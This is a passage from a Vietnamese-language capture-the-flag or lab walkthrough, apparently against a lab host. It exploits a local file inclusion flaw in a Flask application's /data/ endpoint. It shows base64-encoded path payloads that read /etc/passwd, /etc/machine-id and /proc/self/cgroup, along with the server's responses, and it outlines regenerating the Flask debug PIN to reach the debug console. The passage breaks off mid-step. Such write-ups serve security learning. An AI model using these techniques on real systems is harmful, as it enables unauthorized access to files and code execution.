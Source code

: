 Dòng `X-Error: [Errno 2] No such file or directory: '\x15FY'` rất quan trọng cần lưu ý ở đây.

Kiểm tra thêm, có thể yêu cầu `/data/a` trả về phản hồi sau:

```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 13
X-Error: Incorrect padding
...
```

Đây thường là lỗi liên quan đến giải mã base64. Nếu chúng ta mã hóa `a` trong base64, nó sẽ trở thành `YQ==`. Thử http://192.168.120.121:8080/data/YQ==, trả về lỗi sau:

```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 21
X-Error: [Errno 2] No such file or directory: 'a'
...
```

Loại lỗi này cho thấy có thể tận dụng lỗ hổng local file inclusion trong ứng dụng. Hãy thử nghiệm điều này với `/etc/passwd` (base-64-encoded là `L2V0Yy9wYXNzd2Q=`) trở thành http://192.168.120.121:8080/data/L2V0Yy9wYXNzd2Q=:

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
jack:x:1001:1001::/home/jack:/bin/bash 
```

Việc đưa vào thành công và thấy nội dung của file.

Bây giờ, ghi chú về người dùng `jack`.

Bây giờ xác nhận được lỗ hổng LFI, cần tìm cách tận dụng nó để khai thác thêm. Sau một số cuộc điều tra, phát hiện ra rằng không thể đưa vào các file có extension là  `py`, `txt`, `pyc`, `ini` hoặc `conf`.

Nhớ rằng đây là ứng dụng Flask có debugging console được bật (nhưng bị khóa), nghiên cứu một cách bypass tiềm năng. Khi đọc bài đăng trên blog https://www.kingkk.com/2018/08/Flask-debug-pin%E5%AE%89%E5%85%A8%E9%97%AE%E9%A2%98/, phát hiện ra rằng có thể tạo lại mã pin gỡ lỗi Flask bằng cách khai thác lỗ hổng LFI.

Có thể thực hiện việc này bằng script https://gist.github.com/InfoSecJack/70033ecb7dde4195661a1f6ed7990d42, nhưng trước tiên cần nội dung của ba tệp: `/etc/machine-id` (`L2V0Yy9tYWNoaW5lLWlk`), `/proc/self/cgroup` (`L3Byb2Mvc2VsZi9jZ3JvdXA=`) và `/sys/class/net/INTERFACE_NAME/address`. Phát hiện ID máy trong `/etc/machine-id` bằng cách duyệt đến http://192.168.120.121:8080/data/L2V0Yy9tYWNoaW5lLWlk:

```
00566233196142e9961b4ea12a2bdb29
```

Tệp `/proc/self/cgroup` (http://192.168.120.121:8080/data/L3Byb2Mvc2VsZi9jZ3JvdXA=) chứa những nội dung sau:
